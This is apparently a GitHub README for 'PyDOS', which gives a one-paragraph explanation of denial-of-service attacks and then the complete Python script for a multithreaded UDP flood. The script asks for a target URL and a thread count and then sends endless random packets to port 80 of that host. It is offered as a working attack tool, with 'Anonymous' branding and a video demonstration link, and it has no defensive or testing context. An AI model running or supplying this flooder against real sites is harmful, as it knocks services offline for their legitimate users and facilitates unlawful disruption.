


# PyDOS
<p>Implemetation Denial of services attack in python using socket, threading, time,...</p>
<p>

Author: [M-Taghizadeh](http://m-taghizadeh.ir)

See Video of this script in [YouTube](https://www.youtube.com/watch?v=37HzYZTISjE)
</p>


# What is DOS Attack?



<p>
DOS or DDOS attack is one of the most common attacks on sites that makes the site inaccessible. This is done by sending a large number of requests to the site in a short time.
</p>

### Implemetation Denial of services attack (DOS) in python



```python 
# DOS attack with python and socket, threading, time libraries

import time
import socket
import sys
import threading

def create_rnd_msg(msg_size):
	import random

	rnd_msg = ""
	for i in range(0, msg_size):
		ch_rnd = random.randint(0, 255)
		rnd_msg += chr(ch_rnd)
	return rnd_msg

print("\033[92mDenial of service attack..\033[00m\n:)\nAnonymous\n")
time.sleep(3)
site = input("Enter The Target URL: ")
thread_count = int(input("Enter the counts of threads: "))
ip = socket.gethostbyname(site)

UDP_PORT = 80
print("UDP target ip: ", ip)
print("UDP target port: ", UDP_PORT)
time.sleep(3)

def dos():
	while True:	
		MESSAGE = str.encode(create_rnd_msg(8))
		sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		sock.sendto(MESSAGE, (ip, UDP_PORT))
		print(f'Packet Sent Successfuly => Message: \033[94m {MESSAGE.decode()} "\033[00m :)')

for i in range(thread_count):
	try:
		threading.Thread(target=dos).start()

	except KeyboardInterrupt:
		sys.exit(0)
```